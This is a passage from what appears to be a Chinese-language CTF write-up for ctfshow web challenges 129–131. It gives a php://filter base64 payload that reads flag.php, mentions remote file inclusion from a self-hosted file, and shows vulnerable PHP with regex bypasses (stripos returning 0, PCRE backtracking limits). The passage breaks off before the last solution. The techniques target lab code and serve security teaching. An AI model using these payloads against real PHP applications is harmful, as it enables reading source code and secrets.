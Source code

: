 ```php
?f=php://filter/read=convert.base64-encode|ctfshow/resource=flag.php
```

还可以远程文件包含。在自己服务器上写一个命名 `ctfshow.txt`.

## web130~正则

`very very very（省略25万个very）ctfshow`

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

直接 post ，正则匹配到 `ctfshow`与匹配规则不符 ,同时 `stripos` 在第0 匹配, 而0=== FALSE为假绕过。

```php
f=ctfshow
```

## web131(修复130)~正则最大回溯

`very very very（省略25万个very）ctfshow`

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f,'36Dctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

